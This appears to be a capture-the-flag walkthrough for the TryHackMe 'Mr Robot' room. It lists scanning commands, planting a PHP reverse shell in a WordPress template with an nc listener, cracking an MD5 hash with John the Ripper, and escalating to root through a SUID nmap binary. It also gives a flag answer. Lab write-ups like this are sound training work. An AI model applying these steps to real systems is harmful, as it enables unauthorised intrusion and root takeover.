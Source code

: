 ```yaml
---
tags:
  - CTF
  - reverse
  - RevShell
  - John_the_Ripper
  - crack
  - base64
  - hashing
  - nmap
  - gobuster
---
```

----------------------
- Link: https://tryhackme.com/r/room/mrrobot
- write-ups:
	1. https://youtu.be/FxeFGkRhR3Q?si=yI84qwF4P7MExMCc
	2. https://medium.com/@DRX_Sicher/writeup-mr-robot-ctf-1baf5f20e6f4

----

# Preparing


#### 1 - doing the scan stuff

```bash
nmap -A {ip}
```

```bash
gobuster dir -u {ip} -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
```

---
#### 2 - important directories 

`/license` , `/robot` , `login`

---
#### 3 - get to `robot`

you will find the first flag in the file text in the `robot` directory, and another doc file with a word list

----

#### 4 - Login-page

- Go and login in the `/login` directory with the password you will find in `/license` directory - and scroll down in the page to find it-
- Get to the appearance menu in word press and go to editor and open any templte and add the `php reverse shell code` from the following link and make sure to add  your `IP` and the port and go to the link of the php you edit it `{ip}/404.php`:
	https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
- and listen with 
```bash
nc -lvnp {your opened port}
```
- change your shell to a normal shell, BTW this thing already mentioned in the [LinuxRoom-2](LinuxRoom-2.md)
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```
- print this file ---> `password.raw-md5` and crack the `md5` in the file with john the ripper, BTW this note of `john the ripper` mentioned in cracking the hash code in [LinuxRoom-1](LinuxRoom-1.md)
```bash
echo "c3fcd3d76192e4007dfb496cca67e13b" | tee hash && john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash
```
- and the flag is `822c73956184f694993bede3eb39f959`

-----

#### 5 -  Search for the root accessed binaries

- Find the binaries that have a root privileges  
```bash
find / -perm +6000 2>/dev/null | grep '/bin/'
```
- The hint on the site says one thing `nmap` and the `nmap` appears to have a root privileges, so what we want to do is to open an interactive shell to access the root directory of the machine from the `namp`
	- here is a link of a site to open an interactive shell, search with the name of the tool and the condition of your shell. the link --->
		https://gtfobins.github.io/gtfobins/nmap/
	- after that access the root directory `cd /root/` and take the key.....
